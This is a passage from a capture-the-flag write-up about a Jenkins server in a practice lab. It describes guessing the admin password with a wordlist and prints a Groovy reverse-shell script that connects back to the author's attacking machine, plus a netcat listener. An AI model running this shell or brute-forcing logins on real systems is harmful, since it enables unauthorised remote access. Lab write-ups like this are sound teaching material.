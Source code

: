 This is a CTF so as expected the default account of admin and the rockyou wordlist worked for us!

Now we can log in to Jenkins:

![internal-jenkinsdashboard](/assets/images/2021-03-04-22-19-54.png)

Not being familiar with Jenkins I simply Googled "Jenkins reverse shell" and found a few ways to get a one. [This](https://www.n00py.io/2017/01/compromising-jenkins-and-extracting-credentials/) article explains it pretty well and gives you the code needed. I copied the script to Jenkins and changed it to my Kali IP and port:

```text
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.8.165.116/8888;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

Now start a netcat session listening:

```text
root@kali:/home/kali/thm/internal# nc -nvlp 8888
listening on [any] 8888 ...
```

Now over to Jenkins to add the script via Manage Jenkins and then Script Console:
